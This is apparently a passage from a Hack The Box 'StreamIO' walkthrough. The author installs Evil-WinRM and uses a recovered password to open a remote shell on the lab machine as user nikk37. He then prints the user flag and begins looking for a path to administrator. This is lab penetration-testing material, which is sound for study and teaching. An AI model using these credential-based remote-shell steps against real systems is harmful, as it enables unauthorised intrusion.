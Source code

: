 ## Evil-WinRM

We get a password for the user nikk37, so let's use Evil-WinRM to get a shell as that user:

```sh
┌──(root㉿kali)-[~/htb/streamio]
└─# apt install evil-winrm                                                
Reading package lists... Done
Building dependency tree... Done
Reading state information... Done
The following NEW packages will be installed:
  evil-winrm libruby3.0 ruby-builder ruby-domain-name ruby-erubi ruby-gssapi ruby-gyoku ruby-http-cookie
  ruby-httpclient ruby-little-plugger ruby-logging ruby-multi-json ruby-nori ruby-ntlm ruby-oj ruby-sqlite3
  ruby-unf ruby-unf-ext ruby-winrm ruby-winrm-fs ruby3.0
The following packages will be upgraded:
  metasploit-framework ruby
2 upgraded, 21 newly installed, 0 to remove and 379 not upgraded.
Need to get 157 MB of archives.
After this operation, 75.5 MB of additional disk space will be used.
Do you want to continue? [Y/n] y
Get:1 http://kali.download/kali kali-rolling/main amd64 libruby3.0 amd64 3.0.3-1 [5,385 kB]
Get:2 http://kali.download/kali kali-rolling/main amd64 metasploit-framework amd64 6.1.39-0kali1 [151 MB]
<SNIP>

┌──(root㉿kali)-[~/htb/streamio]
└─# evil-winrm -i 10.10.11.158 -u streamIO.htb\\nikk37 -p "get_dem_girls2@yahoo.com"
Evil-WinRM shell v3.3
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\nikk37\Documents>
```

We can grab the user flag:

```powershell
*Evil-WinRM* PS C:\Users\nikk37> type desktop\user.txt
2531e5d4fcb0d72eadec780b2176b4f4
```

Now we are looking to escalate to administrator. There's a clue if you look at the installed programs:

```powershell
*Evil-WinRM* PS C:\Users\nikk37> dir "c:\Program Files (x86)"
    Directory: C:\Program Files (x86)
Mode                LastWriteTime     Length Name
----                -------------     ------ ----
<SNIP>
d-----        2/22/2022   1:54 AM            Microsoft SQL Server
d-----        2/22/2022   1:53 AM            Microsoft.NET
d-----        5/26/2022   4:09 PM            Mozilla Firefox
d-----        5/26/2022   4:09 PM            Mozilla Maintenance Service
d-----        2/25/2022  11:33 PM            PHP
<SNIP>
```

